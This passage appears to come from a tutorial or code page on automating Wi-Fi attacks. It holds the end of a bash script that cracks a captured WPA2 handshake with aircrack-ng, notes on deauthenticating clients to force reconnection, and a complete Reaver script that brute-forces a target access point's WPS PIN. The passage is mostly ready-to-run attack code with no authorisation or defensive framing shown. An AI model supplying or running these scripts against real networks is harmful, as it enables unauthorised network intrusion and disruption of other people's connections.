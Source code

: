 ```bash
kill $AIRO_PID

# Run aircrack-ng to crack the WPA2 key
echo "Running aircrack-ng..."
aircrack-ng -w $WORDLIST $OUTPUT_DIR/capture-01.cap > $OUTPUT_DIR/crack.log 2>&1

# Check if cracking was successful
if grep -q "KEY FOUND" $OUTPUT_DIR/crack.log; then
    echo "Success! Key found in $OUTPUT_DIR/crack.log"
else
    echo "Failed to crack WPA2 password. Check logs for details."
fi
```

- **Explanation**:
  - **Monitoring Mode**: The script ensures the wireless interface is in monitoring mode before starting.
  - **Deauthentication**: Sends deauth packets to force clients to reconnect.
  - **Capture Packets**: Captures packets and stores them in a defined directory.
  - **Cracking**: Runs `aircrack-ng` with a specified wordlist.
  - **Error Checking**: Logs the output to detect success/failure in cracking.

#### b) **Automated Reaver Script for WPS Cracking**:

This script automates the process of running Reaver for WPS PIN cracking and logs the output.

```bash
#!/bin/bash
# Auto-WPS Cracking with Reaver

# Input Variables
INTERFACE="wlan0"                  # Network Interface
TARGET_AP="00:11:22:33:44:55"      # Target AP MAC
OUTPUT_DIR="/root/reaver-output"   # Directory to store results

# Check if interface is up
if ! ip link show $INTERFACE | grep -q "state UP"; then
    echo "Error: Interface $INTERFACE is down. Bringing it up..."
    ip link set $INTERFACE up
fi

# Start monitoring mode
echo "Setting $INTERFACE to monitoring mode..."
airmon-ng start $INTERFACE

# Run Reaver with specified parameters
mkdir -p $OUTPUT_DIR
echo "Cracking WPS PIN with Reaver..."
reaver -i $INTERFACE -b $TARGET_AP -vv -K 1 -c 6 -o $OUTPUT_DIR/reaver.log

# Check Reaver output for success
if grep -q "PIN FOUND" $OUTPUT_DIR/reaver.log; then
    echo "Success! WPS PIN found in $OUTPUT_DIR/reaver.log"
else
    echo "Failed to crack WPS PIN. Check logs for details."
fi
```
